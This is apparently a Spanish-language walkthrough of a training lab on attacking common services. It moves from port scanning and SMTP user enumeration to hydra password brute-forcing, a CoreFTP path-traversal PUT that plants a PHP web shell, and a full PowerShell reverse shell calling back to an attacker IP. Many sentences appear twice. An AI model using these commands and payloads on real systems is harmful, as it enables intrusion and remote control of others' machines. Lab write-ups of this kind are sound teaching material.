



Laboratorio de Ataques a Servicios Comunes - Fácil
Enunciado
Nuestro próximo host es una estación de trabajo que utiliza un empleado para su trabajo diario. Este tipo de hosts se utilizan a menudo para intercambiar archivos con otros empleados y suelen ser administrados por administradores a través de la red. Durante una reunión con el cliente, nos informaron que muchos usuarios internos utilizan este host como host de acceso directo. El objetivo es proteger los archivos que contienen información confidencial.
Antes de nada debemos ir a nuestro /etc/hosts y añadir a nuestro registro la ip dada con el dominio inlanefreight.htb.
Recordemos también descargar los recursos que nos dan en el módulo de wordlists de usuarios y contraseñas.
Enumeración de puertos
Iniciamos la enumeración de servicios para identificar los puertos y protocolos activos en la máquina objetivo.
nmap -p- -sS --min-rate 2000 -n -Pn <IP>
 Vemos que tenemos los puertos 21, 25, 80, 443, 587, 3306, 3389 abiertos, vamos a recoger más información de los servicios que hay corriendo en cada puerto que nos salió a ver si vemos algo interesante.
Vemos que tenemos los puertos 21, 25, 80, 443, 587, 3306, 3389 abiertos, vamos a recoger más información de los servicios que hay corriendo en cada puerto que nos salió a ver si vemos algo interesante.
nmap -p21,25,80,443,587,3306,3389 -sCV -n -Pn <IP>
 Vemos un Apache en el puerto 80, nos está redirigiendo también a un dashboard.
Vemos un Apache en el puerto 80, nos está redirigiendo también a un dashboard.
 Vemos que por https la solicitud devuelve un código de estado 401 unauthorized, luego le echamos un vistazo.
Vemos que por https la solicitud devuelve un código de estado 401 unauthorized, luego le echamos un vistazo.
 Vemos por el puerto 587 un servidor de correo
Vemos por el puerto 587 un servidor de correo hmailServer, luego tenemos una base de datos MariaDB, además de un servicio de RDP por el 3389.
Vale vamos a ir enumerando servicios:
Por FTP y HTTP no vi nada interesante. Vemos que la versión de php que usa es la 7.4.29
 Vemos que por https nos pide que nos autentiquemos sin embargo no tenemos credenciales aún.
Vemos que por https nos pide que nos autentiquemos sin embargo no tenemos credenciales aún.

Seguimos con el servidor de correos por el puerto 587
smtp-user-enum -M RCPT -U /.../users.list -D inlanefreight.htb -t <IP>
Y vemos lo siguiente.
 Obtenemos aqui un usuario válido.
Obtenemos aqui un usuario válido. fiona
Ahora vamos a intentar obtener su contraseña.
hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://10.129.60.6
 Y con fuerza bruta obtenemos por aquí su contraseña.
Y con fuerza bruta obtenemos por aquí su contraseña.
Luego utilizando esas credenciales vemos por https lo siguiente:
 Al acceder al archivo
Al acceder al archivo WebServersInfo.txt vemos esto:

El archivo WebServersInfo.txt nos está indicando que es posible acceder a recursos vía curl utilizando autenticación básica sobre HTTPS.
Luego busqué los siguiente:
searchsploit coreftp

 Hacemos la prueba:
Hacemos la prueba:
curl -k -X PUT -H "Host: <IP>"
--basic -u fiona:987654321
--data-binary "PoC."
--path-as-is https://<IP>/../../../../../../whoops
Y nos responde correctamente:
 Entonces vamos a hacer un PUT donde subamos una instrucción y nos interprete el servidor los comandos desde php, dado que lo vamos a introducir en el directorio donde esta montado el servidor Apache.
Entonces vamos a hacer un PUT donde subamos una instrucción y nos interprete el servidor los comandos desde php, dado que lo vamos a introducir en el directorio donde esta montado el servidor Apache.
curl -k -X PUT -H "Host: <IP>" \
--basic -u fiona:987654321 \
--data-binary "<?php system(\$_GET[\"cmd\"]); ?>" \
--path-as-is https://<IP>/../../../../../../xampp/htdocs/req.php
Y al consumir este recurso 
Confirmando así que tenemos ejecución remota de comandos. Con lo que vamos a lanzarnos una reverse shell.
curl -k -X PUT -H "Host: <IP_victima>" \
--basic -u fiona:987654321 \
--data-binary "<?php exec('powershell -NoP -NonI -W Hidden -Command \"\$client = New-Object System.Net.Sockets.TCPClient(\'<IP_atacante>\',4444);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + \'PS \' + (pwd).Path + \'> \';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()\"'); ?>" \
--path-as-is https://<IP_victima>/../../../../../../xampp/htdocs/pwshell.php
Nos ponemos en escucha:
nc -nlvp 4444
Y consumimos el recurso:
curl -k -H "Host: <IP_victima>" --basic -u fiona:987654321 http://<IP_victima>/pwshell.php

Ya estando dentro del servidor buscamos la flag.

Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías